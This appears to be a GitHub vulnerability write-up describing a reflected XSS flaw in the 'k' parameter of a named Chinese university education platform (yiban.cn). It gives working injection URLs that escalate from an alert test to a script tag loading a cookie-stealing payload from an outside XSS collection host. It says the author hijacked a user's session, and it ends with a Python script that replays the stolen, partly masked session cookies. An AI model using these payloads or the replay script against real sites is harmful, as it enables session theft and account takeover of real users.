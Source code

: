 ## There are reflective XSS vulnerabilities in the educational platform of Chinese colleges and universities, and the aggressive URL URL can be used to attract and steal the user cookie to realize the landing and other operations.Specific vulnerabilities are analyzed as follows  
First, the parameter k is extracted from an article, which mistaken the K to the front end for unfiltered use.
http://www.yiban.cn//project/haiyang_2015yxj/articlelist.php?k=%E3%80%90%E5%90%83%E3%80%919428
### 这时候我们尝试拼接该前端js的function
At this time we tried to splice the function of the front-end JS  
http://www.yiban.cn//project/haiyang_2015yxj/articlelist.php?k=%E3%80%90%E5%90%83%E3%80%919428';}
### Then we continue to splice the JS code. We see that it can be executed, that is, there is no filtering for k.
http://www.yiban.cn//project/haiyang_2015yxj/articlelist.php?k=%E3%80%90%E5%90%83%E3%80%919428';}</scRIPt><script>alert(1)</script>
## Ok,now we can splice up our malicious JS code (for testing purposes only), and then entice the user to click, so we can steal the cookies of the user.
http://www.yiban.cn//project/haiyang_2015yxj/articlelist.php?k=%E3%80%90%E5%90%83%E3%80%919428';}</scRIPt><script src=http://xsspt.com/8cwW2O?1527634980></script>
### Then we used the stolen cookie to login, obviously we succeeded.

### Vulnerability utilization test scripts are as follows
···
import requests

headers={'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36'}
cookie = {'YB_SSID':'-----------2bb1c78cb--d656', 'UM_distinctid':"-----a1240-\059a69ae-5b452a1d-e1000-163ae2270ee1a4", 'SL_GWPT_Show_Hide_tmp':'1', 'yiban_user_token':'3----4b6258ac85b38', 'CNZZDATA1253488264':'7----6-15631606-null%7C1527631606', '_cnzz_CV1253488264':'%-ndex%2FI-----%2Findex%7C1527635160910%26%E5%AD%A6%E6%A0%A1%E5%90%8D%E7%A7%B0%7C%E5%85%B6%E4%BB%96%7C1527635160910', 'SL_wptGlobTipTmp':'---1'}
res = requests.get(url='http://www.yiban.cn/user/index/index/user_id/8777259',cookies=cookie,headers=headers)
print(res.text)
···

